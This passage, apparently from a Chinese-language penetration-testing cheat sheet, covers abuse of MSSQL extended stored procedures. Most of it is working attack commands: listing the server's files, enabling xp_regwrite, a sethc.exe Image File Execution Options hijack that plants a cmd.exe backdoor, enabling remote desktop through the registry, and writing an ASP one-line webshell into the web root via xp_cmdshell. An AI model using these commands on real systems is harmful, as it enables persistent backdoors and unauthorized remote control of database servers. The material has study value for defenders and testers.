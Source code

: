   exec master..xp_dirtree 'c:\';		//显示c盘所有文件和目录
  exec master..xp_dirtree 'c:\',1';	//显示c盘所有目录
  exec master..xp_dirtree 'c:\',1,1;	//显示指定目录下的目录和文件
  
  #xp_create_subdir创建子目录
  exec master..xp_create_subdir 'c:\test';
  
  #xp_fileexist判断文件是否存在
  exec master..xp_fileexist 'c:\windows\win.ini';
  
  #使用xp_regwrite存储过程对注册表近蜥形修改,替换成任意值,造成镜像劫持
  -前提条件
  - 1.未禁止注册表编辑
  - 2.xp_regwrite启用
  #查看xp_regwrite是否启用
  select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_regwrite';
  
  #开启xp_regwrite
  exec sp_configure 'show advanced options',1 RECONFIGURE
  exec sp_configure 'xp_regwrite',1 RECONFIGURE
  
  #利用regwrite修改注册表进行劫持
  exec master..xp_regwrite @rootkey='HKEY_LOCAL_MACHINE',@key='SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Image File Executio Options\sethc.EXE',@value_name='Debugger',@type='REG_SZ',@value='c:\windows\system32\cmd.exe'
  
  #利用regwrite开启3389端口
  exec master.dbo.xp_regwrite 'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server','fDenyTSConnections','REG_DWORD',0;
  exec master..xp_cmdshell "REG ADD 'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server' /v fDenyTSConnections /t REG_DWORD /d 0"
  
  #利用xp_regread对注册表进行读取
  -读取注册查看是否修改成功
  exec master..xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Image File Execution Options\sethc.exe','Debugger'
  
  #通过扩展存储过程拿shell
  - 前提
  - 数据库是db_owner权限
  - 涉及到的存储扩展过程:xp_cmdshell,xp_dirtree,xp_subdirs,xp_regread,xp_ntsec_enumdomains(查看domain信息)
  ```

------

#### 小结

- 条件:已知`web路径`,`sa或dba权限`

- 利用本地存储过程写shell

- xp_cmdshell

- ```sql
  exec master..xp_cmdshell 'echo ^<%eval request("cmd")%^> > c:\inetpub\wwwroot\shell.asp';
  ```
